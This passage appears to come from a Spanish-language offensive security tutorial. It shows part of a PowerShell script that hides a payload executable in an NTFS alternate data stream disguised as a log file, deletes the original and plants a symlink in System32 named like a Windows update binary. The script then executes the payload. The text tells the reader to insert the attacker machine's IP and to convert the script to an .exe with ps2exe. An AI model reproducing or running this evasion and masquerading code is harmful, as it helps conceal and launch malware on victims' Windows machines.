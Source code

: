 ```shell
    Write-Output "Creando flujo alternativo NTFS..."
    cmd /c "type C:\Temp\payload.exe > C:\Temp\windowslog.txt:PuTTY.exe"

    # Borrar el archivo original
    Write-Output "Borrando el archivo original..."
    Remove-Item -Path 'C:\Temp\payload.exe' -ErrorAction Stop

    # Crear el enlace simbólico
    Write-Output "Creando enlace simbólico..."
    cmd /c mklink "C:\Windows\System32\wupdate.exe" "C:\Temp\windowslog.txt:PuTTY.exe"

    # Verificar existencia del enlace simbólico
    Write-Output "Verificando existencia del enlace simbólico..."
    if (Test-Path 'C:\Windows\System32\wupdate.exe') {
        Write-Output "Enlace simbólico creado con éxito."
    } else {
        Write-Output "Enlace simbólico no encontrado."
        exit 1
    }

    # Ejecutar el enlace simbólico
    Write-Output "Ejecutando enlace simbólico..."
    Start-Process -FilePath 'C:\Windows\System32\wupdate.exe' -NoNewWindow -Wait

    Write-Output "Script completado."
} catch {
    Write-Output "Error: $_"
} finally {
    Write-Output "Presione una tecla para salir."
    Read-Host
}
```

Donde pone `<IP>` tendremos que poner la de nuestra maquina atacante, y ya lo demas es dependiendo de como creeis vuestros archivos.

Despues lo que tendremos que hacer sera abrir `PowerShell` como administrador y descargarnos la siguiente herramienta para pasar de `.ps1` a `.exe`.

URL = https://www.advancedinstaller.com/convert-powershell-to-exe.html

Instalaremos el siguiente modulo.

```shell
Install-Module ps2exe
```

Una vez instalado, ejecutaremos el programa.

```shell
win-ps2exe
```

Esto nos abrira una interfaz grafica de usuario en la que lo configuraremos de la siguiente manera.
